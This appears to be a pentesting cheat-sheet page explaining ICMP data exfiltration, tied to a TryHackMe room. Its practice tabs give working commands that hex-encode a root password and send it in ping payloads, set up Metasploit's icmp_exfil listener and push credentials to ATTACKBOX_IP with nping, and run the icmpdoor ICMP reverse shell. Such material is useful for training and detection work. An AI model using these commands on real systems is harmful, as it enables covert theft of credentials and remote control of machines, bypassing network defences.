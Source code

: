 # ICMP Exfiltration

## Theory

The Internet Control Message Protocol [ICMP](https://en.wikipedia.org/wiki/Internet_Control_Message_Protocol). It is a network layer protocol used to handle error reporting. 

## ICMP Data Section

On a high level, the ICMP packet's structure contains a Data section that can include strings or copies of other information, such as the IPv4 header, used for error messages. The following diagram shows the Data section, which is optional to use.  
We can leverage this section in order to exfiltrate datas.  

## Practice

{% tabs %}

{% tab title="Manualy" %}
We can, on linux targets, exfiltrate datas with the `-p` options of the `ping` command.  
```bash
root@victime$ echo 'root:p@ssw0rd!' | xxd -p
726f6f743a7040737377307264210a

root@victime$ ping MACHINE_IP -c 1 -p 726f6f743a7040737377307264210a

```
{% hint style="danger" %}
Note that the -p option is only available for **Linux operating systems**. We can confirm that by checking the ping's help manual page.
{% endhint %}
{% endtab %}

{% tab title="metasploit" %}
let's set up the Metasploit framework by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packets that have the source IP of the attacking machine as follows.

```bash
msf5 > use auxiliary/server/icmp_exfil
msf5 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src ATTACKBOX_IP
BPF_FILTER => icmp and not src ATTACKBOX_IP

msf5 auxiliary(server/icmp_exfil) > run
```  
  
On the target, we can now exfiltrate data.  
```bash
#First, send the BOF trigger
v4resk@victime$ sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "BOFfile.txt"

#Datas
v4resk@victime$ sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"

#EOF end signal
v4resk@victime$ sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
```
{% endtab %}

{% tab title="icmpdoor" %}
[ICMPDoor](https://github.com/krabelize/icmpdoor) is an open-source reverse-shell written in Python3 and scapy. The tool uses the same concept we discussed earlier, where an attacker utilizes the Data section within the ICMP packet. The only difference is that an attacker sends a command that needs to be executed on a victim's machine. Once the command is executed, a victim machine sends the execution output within the ICMP packet in the Data section.  
  
On the victime machine:
```bash
victime@target$ sudo icmpdoor -i eth0 -d TARGET_IP
```
  
On the target machine:
```bash
veresk@kali$ sudo icmp-cnc -i eth1 -d ATTACKBOX_IP
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://tryhackme.com/room/dataxexfilt/" %}
